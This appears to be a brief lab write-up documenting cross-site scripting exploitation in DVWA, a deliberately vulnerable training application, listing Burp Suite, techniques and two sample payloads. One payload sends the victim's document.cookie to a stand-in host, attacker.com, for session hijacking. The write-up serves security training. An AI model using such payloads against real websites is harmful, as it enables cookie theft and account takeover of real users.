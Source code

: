 # Cross-Site Scripting (XSS) Exploitation – DVWA

## Overview
This section documents the exploitation of Cross-Site Scripting (XSS) vulnerabilities in DVWA at high security level.

The objective was to inject malicious JavaScript payloads to demonstrate session hijacking and cookie theft.

## Tools Used
- Burp Suite (for payload injection and interception)
- Custom payloads crafted manually

## Techniques Applied
- Reflected XSS via form input
- Cookie theft using document.cookie
- Redirect to attacker-controlled server

## Sample Payloads
- `<img src=x onerror="alert('XSS Exploited')">`
- `<svg onload="document.location='http://attacker.com?cookie='+document.cookie">`
---
